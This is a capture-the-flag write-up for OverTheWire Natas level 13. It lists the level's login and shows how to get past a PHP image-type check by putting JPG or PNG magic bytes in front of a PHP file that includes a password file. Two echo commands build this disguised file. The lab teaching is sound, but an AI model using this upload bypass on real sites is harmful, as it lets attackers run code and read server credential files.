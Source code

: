 # Level 13


URL : http://natas13.natas.labs.overthewire.org/

### Creds for this challenge 
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


## Solution
1. requirements

- natas12
- File signatures

This challenge looks exactly the same as the previous one `natas12`, we are dealing with an image uploader service, it provides us with a simple form to upload an image.  

Let's spot the difference between the previous and the current source code, what has changed!

```php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image"; 
}
```

In this challenge we are using [exif_imagetype](http://php.net/manual/en/function.exif-imagetype.php) to check if it is an image or not.But this function does is check the magic number of the file (File Signature), to do that it reads the first bytes of the file to tell if its an image or not.

we can bypass this function by crafting a php file beginning with an image file signature (.jpg for example) then we concatenate a malicious command : **include '/etc/natas_webpass/natas14'** for example.  

`NOTE: if you want to do that using the png file signature. use this : 89 50 4E 47 0D 0A 1A 0A and not 89 50 4E 47`  

## how can we craft the file ? 

1. using JPG magic number

```bash
echo "\xff\xd8\xff\xe8 <? include '/etc/natas_webpass/natas14'; ?>" > exp.php
```

2. using PNG magicn number

```bash
echo "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A <? include '/etc/natas_webpass/natas14'; ?>" > exp.php
```



